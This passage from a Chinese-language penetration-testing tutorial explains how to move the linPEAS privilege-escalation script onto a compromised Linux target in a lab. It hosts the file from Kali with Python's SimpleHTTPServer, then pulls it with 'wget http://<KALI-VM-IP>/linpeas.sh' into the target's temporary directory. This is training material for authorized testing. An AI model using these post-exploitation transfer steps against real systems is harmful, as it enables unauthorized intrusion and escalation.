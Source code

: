 图 11.14 – linPEAS Bash 脚本

在将 Bash 脚本下载到我们的 Kali 虚拟机后，我们需要将**linpeas.sh**文件传输到目标虚拟机。这不能自动完成，因为我们没有 meterpreter 会话。因此，我们需要使用 Linux 特定的工具来下载该二进制文件。

## 文件传输

为了将 **linpeas.sh** 文件传输到目标系统，我们需要在 Kali 虚拟机上设置一个 Web 服务器，用于托管该文件，以便我们可以在目标系统上下载它。可以按照此处概述的步骤进行操作：

1.  为了在 Kali 虚拟机上设置 Web 服务器，我们可以使用 **SimpleHTTPServer** Python 模块来提供二进制文件。这可以通过在存储 **linpeas.sh** 二进制文件的目录中运行以下命令来完成：

    **sudo python -m SimpleHTTPServer 80**

    注意

    **SimpleHTTPServer** 是一个适用于 Python 2 的模块，也可以在 Python 3 中使用，名称为 **http.server**。

    如下截图所示，**SimpleHTTPServer** 模块将在 Kali 虚拟机的 **Internet Protocol** (**IP**) 地址的 **80** 端口上提供该目录中的文件：

    ![图 11.15 – SimpleHTTPServer linPEAS    ](img/B17389_11_015.jpg)

    图 11.15 – SimpleHTTPServer linPEAS

1.  为了将 **linpeas.sh** 文件下载到目标系统，我们可以使用 **wget** 工具。然而，在下载二进制文件之前，我们需要导航到一个有读写权限的目录。在此，我们将导航到临时目录，如下截图所示：![图 11.16 – Linux 临时目录    ](img/B17389_11_016.jpg)

    图 11.16 – Linux 临时目录

1.  现在我们可以使用 **wget** 工具从 Kali 虚拟机下载文件到目标系统。这可以通过在目标系统上运行以下命令来完成：

    **wget http://<KALI-VM-IP>/linpeas.sh**

    此命令的输出如下所示：

    ![图 11.17 – 转移 linPEAS 脚本    ](img/B17389_11_017.jpg)
